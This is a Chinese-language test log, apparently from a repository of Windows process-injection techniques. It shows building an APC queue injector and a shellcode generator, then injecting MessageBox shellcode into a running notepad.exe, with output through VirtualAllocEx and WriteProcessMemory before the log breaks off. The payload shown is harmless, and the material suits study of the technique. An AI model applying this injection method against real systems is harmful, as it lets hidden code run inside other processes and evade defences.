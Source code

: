 ## 测试环境

- **操作系统**: Windows 10.0.26100.6584
- **编译器**: GCC (MinGW-w64)
- **架构**: x64
- **编译命令**: `./build.bat` 或 `./build.sh`
- **测试日期**: 2025-10-08

---

## 测试执行

### 构建项目

```bash
$ cd techniques/18-apc-queue-injection
$ ./build.sh

gcc -o build/apc_queue_injection.exe src/apc_queue_injection.c -Wall
gcc -o build/generate_shellcode.exe src/generate_shellcode.c -luser32 -Wall
[+] 构建完成
```

**输出文件**：
- `build/apc_queue_injection.exe` - 注入器
- `build/generate_shellcode.exe` - Shellcode 生成器
- `build/apc_verify_shellcode.exe` - 文件验证 Shellcode 生成器

---

### 测试 1: MessageBox Shellcode

**目的**: 验证 APC 基本执行能力

**生成 Shellcode**:
```bash
$ ./build/generate_shellcode.exe messagebox build/msgbox_payload.bin
[+] 已生成 MessageBox shellcode: build/msgbox_payload.bin (138 字节)
```

**启动目标进程**:
```bash
$ notepad.exe &
$ tasklist | grep -i "notepad.exe"
notepad.exe                  62364 Console                    1     18,048 K
```

**执行注入**:
```bash
$ ./build/apc_queue_injection.exe 62364 build/msgbox_payload.bin

========================================
  APC Queue Injection
  向所有线程的 APC 队列注入 shellcode
========================================

[+] 已读取 shellcode: 138 字节
[*] 目标进程 PID: 62364

[*] 步骤 1: 打开目标进程...
[+] 已打开进程句柄: 0x000001B4

[*] 步骤 2: 分配内存并写入 shellcode...
[+] VirtualAllocEx 成功: 0x000001F74E170000
[+] WriteProcessMemory 成功: 138 字节

```